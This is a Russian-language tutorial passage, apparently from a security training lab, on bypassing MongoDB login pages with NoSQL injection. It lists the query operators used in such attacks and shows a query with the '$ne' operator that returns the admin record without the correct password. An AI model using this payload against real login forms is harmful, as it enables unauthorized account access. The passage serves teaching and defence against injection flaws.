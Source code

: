 ### Обход страниц входа!

Логика страниц входа в систему похожа в большинстве баз данных: сначала подключаемся к базе данных, а затем ищем 
определенное имя пользователя и пароль; если они существуют в коллекции (в базе данных), то у нас есть допустимая 
запись. Ниже приведен запрос, который используется в веб-приложениях, используемых на нашей странице входа:    
функции  db.users.find({query})  или  db.users.findOne(query), где  запрос  — это данные JSON, которые отправляются 
через приложение:  {"username": "admin", "password":"adminpass"}. Обратите внимание, что когда мы предоставляем 
правильные учетные данные, возвращается документ, в то время как при предоставлении неправильных учетных данных, 
когда ничего не совпадает, возвращается нулевой ответ!          

```commandline
MongoDB
> db.users.findOne({username: "admin", password: "adminpass"})
{
        "_id" : ObjectId("6183ef6292dea43d75f0c820"),
        "id" : "1",
        "username" : "admin",
        "email" : "admin@thm.labs",
        "password" : "adminpass"
}
> db.users.findOne({username: "admin", password: "adminpasss"})
null
```

Прежде чем приступить к использованию NoSQL-инъекции, нам необходимо ознакомиться с операторами MongoDB, которые 
активно используются при инъекциях, а именно: 
```commandline
$eq — соответствует записям, которые равны определенному значению 

$ne — соответствует записям, которые не равны определенному значению 

$gt — сопоставляет записи, которые больше определенного значения. 

$where — сопоставление записей на основе условия Javascript 

$exists - сопоставляет записи, имеющие определенное поле 

$regex — сопоставляет записи, удовлетворяющие определенным регулярным выражениям. 
```
Посетите  веб-сайт MongoDB  для получения дополнительной информации об операторах MongoDB. Далее мы будем использовать логику запроса на вход, внедряя объект JSON, который включает один из операторов NoSQL, а именно  $ne . 
```commandline
MongoDB
> db.users.findOne({username: "admin", password: {"$ne":"xyz"}})
{
        "_id" : ObjectId("6183ef6292dea43d75f0c820"),
        "id" : "1",
        "username" : "admin",
        "email" : "admin@thm.labs",
        "password" : "adminpass"
}
```
